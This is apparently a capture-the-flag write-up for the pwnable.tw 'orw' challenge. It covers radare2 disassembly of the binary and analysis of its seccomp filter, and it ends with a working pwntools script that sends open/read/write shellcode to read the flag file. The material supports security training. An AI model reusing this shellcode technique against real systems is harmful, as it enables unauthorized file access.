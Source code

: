 # orw

only open, read, write syscalls are allowed to use

file:

```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

checksec:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   74 Symbols     Yes      0               2       orw
```


## solution

The program prompts for some input in stdin and then segfaults, since it wants shellcode.

Lets open it up in r2.

```
[0x080483d0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[0x080483d0]> afl
0x080483d0    1 33           entry0
0x080483a0    1 6            sym.imp.__libc_start_main
0x08048410    4 43           sym.deregister_tm_clones
0x08048440    4 53           sym.register_tm_clones
0x08048480    3 30           sym.__do_global_dtors_aux
0x080484a0    4 43   -> 40   entry.init0
0x08048600    1 2            sym.__libc_csu_fini
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048604    1 20           sym._fini
0x080484cb    3 125          sym.orw_seccomp
0x080483b0    1 6            sym.imp.prctl
0x08048390    1 6            sym.imp.__stack_chk_fail
0x080485a0    4 93           sym.__libc_csu_init
0x08048548    1 81           main
0x08048380    1 6            sym.imp.printf
0x08048370    1 6            sym.imp.read
0x08048330    3 35           sym._init
0x080483c0    1 6            sym..plt.got
[0x080483d0]> pdf @ main
            ; DATA XREF from entry0 @ 0x80483e7(w)
┌ 81: int main (char **argv);
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg char **argv @ esp+0x24
│           0x08048548      8d4c2404       lea ecx, [argv]
│           0x0804854c      83e4f0         and esp, 0xfffffff0
│           0x0804854f      ff71fc         push dword [ecx - 4]
│           0x08048552      55             push ebp
│           0x08048553      89e5           mov ebp, esp
│           0x08048555      51             push ecx
│           0x08048556      83ec04         sub esp, 4
│           0x08048559      e86dffffff     call sym.orw_seccomp
│           0x0804855e      83ec0c         sub esp, 0xc
│           0x08048561      68a0860408     push str.Give_my_your_shellcode: ; 0x80486a0 ; "Give my your shellcode:"
│           0x08048566      e815feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x0804856b      83c410         add esp, 0x10
│           0x0804856e      83ec04         sub esp, 4
│           0x08048571      68c8000000     push 0xc8                   ; 200
│           0x08048576      6860a00408     push obj.shellcode          ; 0x804a060
│           0x0804857b      6a00           push 0
│           0x0804857d      e8eefdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x08048582      83c410         add esp, 0x10
│           0x08048585      b860a00408     mov eax, obj.shellcode      ; 0x804a060
│           0x0804858a      ffd0           call eax
│           0x0804858c      b800000000     mov eax, 0
│           0x08048591      8b4dfc         mov ecx, dword [var_4h]
│           0x08048594      c9             leave
│           0x08048595      8d61fc         lea esp, [ecx - 4]
└           0x08048598      c3             ret
[0x080483d0]> pdd @ main
/* r2dec pseudo code output */
/* orw @ 0x8048548 */
#include <stdint.h>
 
int32_t main (char ** argv) {
    int32_t var_4h;
    ecx = &argv;
    orw_seccomp (ecx, ebp);
    printf ("Give my your shellcode:");
    read (0, obj.shellcode, 0xc8);
    eax = shellcode;
    void (*eax)() ();
    eax = 0;
    ecx = var_4h;
    esp = ecx - 4;
    return eax;
}

```


Its reading from stdin into a buffer of size 0xc8 and then it executes it. The goal is to construct shellcode to bypass the ORW seccomp.

We can use strace to figure out the orw_seccomp function, since we know its called just before the printf.
it calls `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len=12, filter=0xffe4899c})`. 

[SECCOMP](https://en.wikipedia.org/wiki/Seccomp) means that we can only use `open`, `read,` and `write`. Our goal is to `cat /home/orw/flag`. The shellcode can be constructed easily:


```cpp
char[0x30] buffer;
fd = open("/home/orw/flag", RD_ONLY);
read(fd, buffer, 0x30);
write(stdout, buffer, 0x30);
```

We can just shellcraft for this rather than translating it all to assembly.

```py
#!/usr/bin/env python3

from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10001)
    else:
        p = elf.process()

context(os="linux", arch="i386")
context.binary = elf = ELF("./orw")
start()

shellcode = shellcraft.i386.linux.open("/home/orw/flag\x00")
shellcode += shellcraft.i386.linux.read("eax", "esp", 0x30)
shellcode += shellcraft.i386.linux.write(1, "esp", 0x30)

p.recvuntil(b"Give my your shellcode:")
p.send(asm(shellcode))
print(p.recvall())
```
